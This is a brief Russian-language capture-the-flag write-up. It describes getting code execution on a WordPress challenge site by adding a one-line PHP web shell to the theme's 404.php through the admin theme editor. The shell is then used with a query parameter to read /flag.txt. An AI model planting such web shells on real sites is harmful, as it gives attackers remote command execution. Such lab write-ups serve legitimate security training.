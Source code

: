 # WordPress Code Execution
Войдя с правами администратора из задачи Private Data переходим в редатор файлов темы `http://79.143.25.24:8157/wp-admin/theme-editor.php`, и например в файле 404.php добавляем в конец файла код:
``` php
<?php system($_GET["c"]); ?>
```
Можем выполнять системные команды через параметр на странице `/404.php?c=cat+/flag.txt`, получаем флаг.

Флаг - deteact{4270a0ad90e239b421d5ec36bcae1c2f}